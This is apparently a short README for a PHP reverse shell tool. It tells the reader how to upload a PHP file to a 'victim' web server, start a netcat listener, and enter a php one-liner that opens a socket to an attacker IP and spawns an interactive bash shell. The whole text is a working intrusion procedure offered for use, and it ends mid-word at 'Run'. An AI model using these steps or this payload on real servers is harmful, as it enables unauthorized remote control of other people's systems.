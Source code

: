 # phpReverseshell
Note: 1. This is PHP based reverse shell 
      2. shell_exec() should be enables at server side (Victim web server)
Upload the 9090909090101010101010.php into webserver.
At attacker side run "nc -lvp $ATTACKER_PORT" (ex: nc -lvp 1234).
Then access http://server_IP/location_of_9090909090101010101010.php.
and input php -r '$sock=fsockopen("$Attacker_IP",$ATTACKER_PORT);exec("/bin/bash -i <&3 >&3 2>&3");' and hit Run.
Reverse shell will be created at attacker side.
Run 
